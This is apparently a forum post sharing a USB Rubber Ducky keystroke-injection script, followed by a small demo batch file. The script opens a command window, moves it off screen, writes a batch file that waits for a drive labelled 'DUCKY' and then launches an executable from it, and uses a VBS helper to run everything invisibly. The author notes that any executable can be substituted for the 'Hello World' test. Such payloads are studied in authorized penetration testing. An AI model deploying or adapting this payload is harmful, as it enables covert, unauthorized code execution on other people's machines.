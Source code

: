 The following is a payload I have been working on that waits until a drive labeled "DUCKY" is mounted. I have used some of midnightsnake's code in this payload. I have been having some problems with delays so I went a little overboard with the "DELAY 25" codes. The name of the file that is run can be changed to .exe, I am just having it run a batch for testing purposes. The line that says "STRING %myd%\myEXE.bat" is the line that executes the executable.

```
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Run an executable file off of the SD card after it mounts. 
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 25
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') 

do set myd=%%d
ENTER
STRING if Exist %myd% (
ENTER
STRING goto break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING START %myd%\HelloWorld.exe
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-

background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, 

False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

The following is the batch file that is run after the "DUCKY" drive has been mounted. Everything is being run invisibly, so you will need to check for the existence of "Message.txt" which will probably be in "C:\Windows\system32".

```
REM Message.txt
echo Hello Wolrd!!!
echo Hello World!!! > Message.txt
```

The encoders now support the repeat command, so should only be a problem if you are using an old encoder. 

